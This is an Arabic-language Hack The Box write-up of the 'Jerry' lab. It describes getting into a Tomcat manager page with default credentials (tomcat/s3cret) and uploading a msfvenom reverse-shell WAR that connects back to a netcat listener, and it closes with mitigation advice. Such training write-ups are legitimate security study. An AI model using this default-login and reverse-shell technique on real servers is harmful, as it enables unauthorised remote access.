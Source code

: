 ```yaml
---

title: "HTB Jerry Lab - Arabic Hack The Box Report"
date: 2025-07-28
author: <author_id>
layout: post
categories: Hack_The_Box
tags: [HTB_Repo, Web, Bug_Bounty, File_Upload_Attack ,web_pentest]
direction: rtl
image:
  path: /images/Labs/jerry/1.png
  alt: 
description: 
----

# 1️⃣ HTB Jerry Lab - Arabic Hack The Box Report

---
```

## 📍 Basic Information
- *Category:* Web
- *Difficulty:* Easy
- *HTB Link:* [HTB Academy – Jerry ](https://app.hackthebox.com/machines/Jerry)
- *Date Completed:* 2025-07-28

---

## 🔍 1. Recon & Enumeration

### 🌐 Target Information
- *IP:* 10.10.10.95
- *Ports:* 8080 (HTTP)
- *Service:* Apache Tomcat
- *Technology Identified:* Apache Tomcat
- *OS Guessing:* Windows

### 📄 Files / Endpoints Discovered
- /docs
- /manager/html
- /examples

### 🧪 Tools Used
- `nmap`, `ffuf`, `msfvenom` 

----

## 🎯 2. Vulnerability Identification

### ✅ Vulnerability Type(s)
- [x] File Upload Attack
- [x] Weak Credential 

### 🧠 Explanation  
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">
اثناء فحص ال Directories وجدت صفحة تسجيل دخول manager/html وهي عبارة عن صفحة تسجيل دخول، قمت بالتسجيل بال username وال password الافتراضيين ل Tomcat، وبالفعل استطعت تسجيل الدخول.
</p>
![[Pasted image 20250728212622.png]]
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">
لاحظت بصفحة ال manager وجود مكان لرفع ملف Web Application Resource (WAR) وهو ملف يحتوي على الملفات المبنية ب Java الضرورية لعمل الموقع.

السماح برفع ملفات WAR وتمكين المستخدم من تشغيلها بدون تحقق من التوثيق يمثل خلل أمني يسمح بتنفيذ أوامر عن بعد RCE، وهذا يُصنف كـ Remote Code Execution.
</p>

---

## 🚀 3. Exploitation

### 🔧 Payload Used
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

بعد بحث خفيف على Google وجدت ان ممكن انشأ ال payload باستخدام msvenom : 
</p>

```shell
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.93 LPORT=9002 -f war > rev_shell.war
```
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

وطبعاً لازم شغل Listener عندي باستخدام Netcat:
</p>

```shell
nc -lnvp 9002
```


---
### 🎯 Result / Effect
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

بعد ما جهزت ال Listener وانشأت ال Payload، برفعه على الصفحة، بس ما رح يصير شي عندي لانه صح انرفع بس ما تم تفعيله، لهيك لازم اضغط على رابط ال Payload يلي تم انشائه:
</p>

![[2.webp]]

---

## 📎 4. Proof of Concept (PoC)

### 💬 Steps to Reproduce:
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

1. افتح 8080:[Your_IP] وسجل الدخول بـ:
    
2. بعد الدخول، انتقل مباشرة إلى /manager/html
    - username: tomcat
        
    - password: s3cret
        
    
3. لاحظ ممكن رفع ملف war.
    
4. انشأ payload Java وقم برفعه ثم تشغيله.
    
</p>

### 🖼 Screenshot 

![[3.webp]]

![[4.webp]]

---

## 📊 5. Impact & Risk

<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

- *OWASP Category:* A08:2021 - Software and Data Integrity Failures , A05:2021 - Security Misconfiguration
    
- *CVSS Score:* 9.0 (Critical)
    
- *Impact:*  
    يسمح للمستخدمين غير المصرح لهم بالوصول إلى صلاحية ال Administrator
    
</p>


---

## 🗒 7. Lessons Learned

<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

- ضرورة تعطيل واجهات الإدارة (manager/html) أو تقييدها عبر جدار ناري داخلي.
    
- تقييد رفع ملفات WAR لمديرين موثوقين فقط.
    
- فحص ملفات WAR باستخدام AV و sandbox قبل النشر.

</p>    

---

## 🔗 References

- [HTB Academy - File Upload Attacks](https://academy.hackthebox.com/module/details/136)
    
- [OWASP A08 – Software and Data Integrity Failuresl](https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/)
    
- [OWASP A05 – Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
    

---

## *tags:*

#HTB_Repo , #Web , #Bug_Bounty , #File_Upload_Attack ,#web_pentest